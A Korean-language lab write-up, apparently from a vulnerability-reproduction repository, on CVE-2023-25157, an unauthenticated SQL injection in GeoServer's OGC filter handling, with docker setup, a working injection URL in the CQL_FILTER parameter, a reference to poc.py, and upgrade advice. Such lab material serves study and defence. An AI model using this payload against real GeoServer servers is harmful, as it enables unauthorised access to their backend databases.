

# CVE-2023-25157

**Contributors**

-   [djadydwls0720](https://github.com/djadydwls0720)

<br/>

### 요약

-   GeoServer 2.22.1 이전 버전에서 OGC 필터 표현식을 통한 SQL 인젝션 취약점이 발견되었습니다.
-   https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158
-   https://github.com/advisories/GHSA-7g5f-wrx8-5ccf
-   https://nvd.nist.gov/vuln/detail/CVE-2023-25157

<br/>

### GeoServer란?

-   GeoServer는 공간 데이터를 보고, 편집하며 공유할 수 있는 Java 기반의 오픈소스 소프트웨어 서버입니다.
-   지리 정보 시스템(GIS) 데이터베이스, 웹 기반 데이터 및 개인 데이터 세트와 같은 다양한 소스에서 공간 데이터를 배포하는 유연하고 효율적인 솔루션으로 설계되었습니다.

<br/>

### CVE-2023-25157 소개

-   2.22.1 이전 버전 및 2.21.4 이전 버전에서 Open Geospatial Consortium (OGC) 표준으로 정의된 필터 및 함수 표현식 평가 시 SQL 인젝션이 발생합니다.
-   공격자는 인증 없이 OGC 필터 파라미터를 조작하여 백엔드 PostgreSQL 데이터베이스에 임의의 SQL 구문을 주입할 수 있습니다.

<br/>

### 환경 구성 및 실행

-   다음 명령을 실행하여 GeoServer 2.22.1 테스트 환경을 시작합니다.
```
docker compose up -d
```

-   서버가 시작되면 `http://your-ip:8080/geoserver`에서 GeoServer 기본 페이지를 확인할 수 있습니다.

-   poc.py 실행 전 의존성을 설치합니다.
```
pip install requests
```

<br/>

### Exploit

-   Vulhub GeoServer 인스턴스에는 다음 PostGIS 데이터 저장소가 미리 구성되어 있습니다.
    -   작업 공간 이름: `vulhub`
    -   데이터 저장소 이름: `pg`
    -   피처 타입(테이블) 이름: `example`
    -   피처 타입 속성: `name`

-   다음 URL로 SQL 인젝션을 실행합니다.
```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```

-   또는 poc.py를 실행하여 자동으로 확인할 수 있습니다.
```
python3 poc.py
```



<br/>

### 정리

-   이 취약점은 GeoServer가 OGC 필터 파라미터를 안전하게 처리하지 않아 SQL 인젝션이 발생합니다. GeoServer 2.22.2 또는 2.21.5 이상으로 업그레이드하여 대응할 수 있습니다.
